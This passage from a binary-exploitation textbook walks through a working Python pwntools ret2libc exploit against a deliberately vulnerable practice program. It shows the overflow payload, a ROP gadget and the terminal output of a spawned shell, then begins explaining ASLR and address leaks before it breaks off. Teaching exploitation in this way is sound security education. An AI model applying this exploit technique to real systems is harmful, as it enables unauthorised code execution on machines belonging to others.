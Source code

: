 We now have enough information to write an exploit. One possible implementation
is below.

\begin{lstlisting}
#!/usr/bin/env python
from pwn import *

e = ELF("./ret2libc")
system_address = e.symbols["system"]
bin_sh_address = e.search("/bin/sh").next()

payload = 'A' * 80
# 0x0000000000401526 : pop rdi ; ret
payload += p64(0x401526) + p64(bin_sh_address)
payload += p64(system_address)

p = process("./ret2libc")
p.sendline(payload)
p.interactive()
\end{lstlisting}

We can verify that running the exploit spawns a shell.

\begin{lstlisting}
> ./ret2libc_solution.py 
[*] '/home/devneal/Security/REFE/textbook/example_code/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './ret2libc': pid 13111
[*] Switching to interactive mode
Enter the password:
You don't have permission to perform this action.
$ whoami
devneal
$  
\end{lstlisting}

\subsection{ASLR}
\subsubsection{ASLR}
ASLR, or Address Space Layout Randomization, is a mitigation technique in which
the locations of the stack, heap, and shared libraries are randomized at
runtime. This makes ROP and ret2libc attacks more difficult, since the attacker
can't reliably jump to those parts of the code. However, ASLR does not randomize
code within a single section. This means that if an attacker can leak the
address of any library function they can then learn the locations of all of the
code in the library.

\subsubsection{Exploiting a leak}
Consider this program, which intentionally leaks a libc address.

